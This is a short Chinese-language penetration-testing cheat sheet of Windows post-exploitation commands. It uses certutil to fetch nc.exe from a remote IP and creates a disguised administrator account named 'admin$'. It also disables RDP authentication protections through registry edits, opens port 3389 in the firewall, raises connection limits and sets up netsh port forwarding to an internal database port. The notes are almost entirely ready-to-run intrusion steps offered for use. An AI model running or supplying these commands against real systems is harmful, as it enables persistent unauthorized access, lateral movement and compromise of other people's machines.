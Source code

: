 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe
## 渗透后置操作

```bash
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /D 0 /f
echo port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 3 /f
# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy reset
```
